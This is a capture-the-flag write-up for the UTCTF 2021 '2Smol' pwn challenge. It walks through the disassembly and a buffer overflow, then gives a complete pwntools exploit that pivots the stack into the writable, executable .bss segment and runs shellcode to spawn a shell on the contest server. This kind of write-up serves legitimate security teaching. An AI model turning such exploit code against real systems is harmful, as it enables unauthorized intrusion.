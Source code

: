 # 2Smol

**Category**: Pwn \
**Points**: 910 (96 solves) \
**Author**: hukc

## Challenge

I made this binary 2smol.

`nc pwn.utctf.live 9998`

Attachments: `smol`

## Overview

This is the entire `objdump` output:
```asm
_start:
  call   40100d <main>
  mov    eax,0x3c
  syscall
  ret

main:
  push   rbp
  mov    rbp,rsp
  sub    rsp,0x8
  lea    rdi,[rbp-0x8]
  call   401023 <_read>
  mov    rsp,rbp
  pop    rbp
  ret

_read:
  push   rbp
  mov    rbp,rsp
  sub    rsp,0x8
  mov    rsi,rdi
  mov    edi,0x0
  mov    edx,0x200
  mov    eax,0x0
  syscall
  mov    rsp,rbp
  pop    rbp
  ret
```

In C, it looks like
```c
void main() {
    _read($rbp - 8);
}

void _read(char* buf) {
    read(0, buf, 0x200);
}
```

This definitely is a smol challenge. Let's do `checksec`:
```
$ checksec smol
[*] '/home/plushie/Programs/bbb_writeups/2021/utctf/2Smol/smol'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

## Solution

The program attempts to read 512 bytes into a buffer of size 8. Clearly we have
a buffer overflow lol.

Since NX is disabled, we can probably inject shellcode. But where do we put it?
Let's check the virtual memory map in GDB:

```gdb
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
          0x400000           0x402000 r-xp     2000 0      /home/plushie/Programs/bbb_writeups/2021/utctf/2Smol/smol
          0x402000           0x403000 rwxp     1000 0
    0x7fffe97bf000     0x7fffe97e1000 rwxp    22000 0      [stack]
    0x7fffe97ec000     0x7fffe97ef000 r--p     3000 0      [vvar]
    0x7fffe97ef000     0x7fffe97f0000 r-xp     1000 0      [vdso]
0xffffffffff600000 0xffffffffff601000 --xp     1000 0      [vsyscall]
```

Notice that `0x402000 - 0x403000` is `RWX`. This is actually the `.bss` segment:
```gdb
pwndbg> info file
Symbols from "/home/plushie/Programs/bbb_writeups/2021/utctf/2Smol/smol".
Native process:
	Using the running image of attached process 147807.
	While running this, GDB does not access memory from...
Local exec file:
	`/home/plushie/Programs/bbb_writeups/2021/utctf/2Smol/smol', file type elf64-x86-64.
	Entry point: 0x401000
	0x0000000000401000 - 0x0000000000401044 is .text
	0x0000000000402000 - 0x0000000000403000 is .bss
	0x00007fffe97ef120 - 0x00007fffe97ef164 is .hash in system-supplied DSO at 0x7fffe97ef000
	0x00007fffe97ef168 - 0x00007fffe97ef1b8 is .gnu.hash in system-supplied DSO at 0x7fffe97ef000
	...
```

I recently did a [challenge](https://github.com/qxxxb/ctf/tree/master/2021/zer0pts_ctf/not_beginners_stack)
from [zer0pts CTF](https://2021.ctf.zer0pts.com/index.html#/) where I had to
migrate the stack to the `.bss` section, and it looks like the same trick will
work here since we can overwrite `$rbp`.

Here's my script:
```python
import pwn

pwn.context.binary = elf = pwn.ELF("./smol")

if pwn.args.LOCAL:
    io = pwn.process("./smol")
else:
    io = pwn.remote("pwn.utctf.live", 9998)

if pwn.args.GDB:
    pwn.gdb.attach(
        io,
        gdbscript="""
break *(&_read+32)
continue
    """,
    )

bss = 0x402020  # Add 0x20 so the stack has room to grow without segfaulting
read_again = 0x401015  # Address of `_read`

payload = b"A" * 8
# Overwrite $rbp to migrate stack to .bss, which is RWX
payload += pwn.p64(bss + 0x10)
# Set return address to `_read` to write our shellcode onto our new stack.
payload += pwn.p64(read_again)

io.sendline(payload)

payload = b"B" * 16
# Overwrite return address to jump to our shellcode
payload += pwn.p64(bss + 0x20)
# Add our shellcode
payload += pwn.asm(pwn.shellcraft.sh())

io.sendline(payload)
io.interactive()
```

Output:
```
$ python3 solve.py
[*] '/home/plushie/Programs/bbb_writeups/2021/utctf/2Smol/smol'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[+] Opening connection to pwn.utctf.live on port 9998: Done
[*] Switching to interactive mode
$ cat flag.txt
utflag{srop_xd}
```

Yay we got the flag, though it hints that we were supposed to do SROP which
should work too I guess :O
